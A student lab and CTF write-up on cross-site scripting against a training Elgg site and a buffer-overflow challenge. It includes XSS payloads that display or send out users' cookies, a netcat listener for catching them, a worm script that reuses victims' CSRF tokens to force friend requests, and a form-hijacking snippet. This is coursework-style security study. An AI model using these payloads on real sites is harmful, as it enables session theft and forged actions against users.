






# Week \#10 Tasks and Week \#10 CTF

## Week \#10 Tasks:

- **Task 1**: When we embedded the JavaScript code `<script>alert('XSS');</script>` in the brief description field of a certain profile, any user who views that profile will see the `XSS` alert window:

    

- **Task 2**: When we embedded the JavaScript code `<script>alert(document.cookie);</script>` in the brief description field of a certain profile, any user who views that profile will see an alert with the user cookies:

    

- **Task 3**: Similarly to task 2, but us, attackers, want to see the cookies in our "side". For that, we used the following script to send the user cookies to the port 5555 of the attacker's maachine: `<script>document.write('');</script>`. Previously, we run `nc -lknv 5555` so that we can print out whatever is sent by the client to the port 5555.

    

- **Task 4**: In this task we had to make a non self-propagate XSS worm that adds Samy as a friend to any other user that visits Samy's page. For that, we used the provided skeleton JavaScript code (on Editor mode) and adapted it with our needs:

```javascript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // 1
    var token="&__elgg_token="+elgg.security.token.__elgg_token; // 2

    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=57" + ts + token + ts + token;

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

1. Explain the purpose of Lines 1 and 2, why are they needed?
   - Answer: the lines 1 and 2 are needed to retrieve the `__elgg_ts` and `__elgg_token` fields from the elgg cookie, which are needed in order to build the `sendurl` used to send a friend request to Samy. Since these tokens are different for every web user, we could never write them hardcoded. By retrieving them from the elgg cookie, the script works for any user.

2. If the `Elgg` application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
   - Answer: The Editor mode adds additional HTML code to the text typed into the field, while the Text mode does not. Additionaly, special characters like `<` and `>` might be converted to `&lt` and `&gt`, which would prevent us to launch a successful attack.



## Week \#10 CTF:

- **Challenge 1**: After inspecting the HTML elements of the website, we made it so that after a submission is made, the "Give the flag" button is executed, thus receiving the flag after a few minutes. Basically we made our button "Mark request as read" press the button "Give the flag", using the function `submit()`. We used `return false` after just to avoid the event to actually fire.

```javascript
<script>
    document.querySelector("[role='formRead']").onsubmit = function() { 
        document.querySelector("[role='form']").submit(); return false;
    }
</script>
```



- **Challenge 2**: This CTF is very similar with one CTF previously done. The vulnerability is present on `gets(buffer)`, where the program can get more bytes than buffer size (it reads everything on input until receives `\0`, not only 100 bytes). Therefore, we were able to create a python script that reads the address given by the server, write it to the return address and put shellcode on the beginning of it. With that, we got kernel access to the server's folder, so that we can browse through directories and files and find `flag.txt`.

